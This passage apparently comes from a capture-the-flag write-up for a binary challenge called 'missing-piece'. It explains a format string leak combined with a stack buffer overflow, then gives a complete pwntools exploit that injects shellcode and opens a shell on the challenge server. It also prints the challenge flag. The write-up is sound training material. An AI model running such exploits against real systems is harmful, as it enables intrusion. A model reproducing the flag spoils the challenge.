 ![](/assets/images/posts/2022-04-17-18-25-12.png)

This is the main function

![](/assets/images/posts/2022-04-17-18-27-32.png)

We have a format string and then a buffer overflow. We're able to get the address of our malloc'ed memory and because there is no NX protection we can jump there and execute our shellcode.

```py
from pwn import *

context.clear(arch = 'amd64')

shellcode = asm('\n'.join([
    shellcraft.sh(),
]))

print(shellcode)

#sh = process('./missing-piece')
sh = remote('ctf-15.security.cs.pub.ro', 31337)

"""
context.terminal = ['tmux','splitw','-h']
gdb.attach(sh, '''
break *0x4012B7
continue
''')
"""

sh.sendline(b' '.join(f'%{i}$p'.encode() for i in range(1, 50)))

addr = sh.recvline().split(b' ')
old_rbp = int(addr[13][2:],16)

dest = old_rbp - 102

print('dest:', hex(dest))

payload = shellcode + b'A' * (0x80 - len(shellcode) + 8) + p64(dest)

print(payload.hex())

sh.sendline(payload)

sh.interactive()
```

**ACS_IXIA_CTF{M3_f0und_y0u_Lo0o0ng_t1m3}**

<a name="namedatabase"></a>
## Name Database (200) - Exploit
